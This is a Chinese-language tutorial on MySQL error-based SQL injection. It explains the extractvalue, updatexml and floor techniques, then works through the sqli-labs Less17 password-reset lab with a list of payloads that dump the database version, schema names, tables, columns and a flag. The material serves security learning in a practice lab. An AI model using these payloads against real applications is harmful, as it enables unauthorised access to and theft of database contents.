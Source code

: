 **报错注入存在基础：**

> **后台对于输入输出的合理性没有做检查**
>

#### extractvalue报错注入
```sql
EXTRACTVALUE (XML_document, XPath_string);
第一个参数：XML_document是String格式，为XML文档对象的名称
第二个参数：XPath_string (Xpath格式的字符串)
```

**补充：什么是 xml？**[**XML 学习**](about:blank)

#### **updatexml报错注入**
```sql
函数updatexml(XML_document,XPath_string,new_value)
第一个参数: XML_document是string格式，为XML文档对象的名称，例如Doc
第二个参数: XPath string是路径，XPath格式的字符串
第三个参数: new_value，string格式，替换查找到的符合条件的数据
```

#### floor报错注入
** 这种注入方式与以上两种方式原理上存在很大的区别，相对来说要复杂很多。**[**参考文章**](https://www.cnblogs.com/c1047509362/p/12806297.html)

**原理：利用select count(*),floor(rand(0)*2)x from information_schema.character_sets group by x;导致数据库报错，通过concat函数连接注入语句与floor(rand(0)*2)函数，实现将注入结果与报错信息回显的注入方式。 ** 

```sql
# 每次产生0-1的随机数，若随机数种子一样，则产生的随机数也一样
rand()
# 计数 
count()
# 按照x分类
group by x
```

#### 例题：以 Less17 为例
**这题情景是要重置密码**

 根据页面展示是一个密码重置页面，也就是说我们已经登录系统了，然后查看我们源码，是根据我们提供的账户名去数据库查看用户名和密码，如果账户名正确那么将密码改成你输入的密码。再执行这条sql语句之前会对输入的账户名进行检查，对输入的特殊字符转义。所以我们能够利用的只有更新密码的sql语句。sql语句之前都是查询，这里有一个update更新数据库里面信息。所以之前的联合注入和布尔盲注以及时间盲注都不能用了。这里我们会用到报错注入。  

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732253469819-c8df1780-5360-4044-a23c-c9d641a4efcf.png)

##### **extractvalue报错注入**
```sql
# 爆版本
1' and (extractvalue(1,concat(0x5c,version(),0x5c)))#
# 爆当前数据库
1' and (extractvalue(1,concat(0x5c,database(),0x5c)))#
# 爆所有数据库
1' and (extractvalue(1,concat(0x5c,(select group_concat(schema_name) from information_schema.schemata),0x5c)))#
# 爆表名
1' and (extractvalue(1,concat(0x5c,(select group_concat(table_name) from information_schema.tables where table_schema='ctftraining'),0x5c)))#
# 爆字段名
1' and (extractvalue(1,concat(0x5c,(select group_concat(column_name) from information_schema.columns where table_name='flag'),0x5c)))#
# 爆字段内容
1' and (extractvalue(1,concat(0x5c,(select group_concat(flag) from ctftraining.flag),0x5c)))#
```
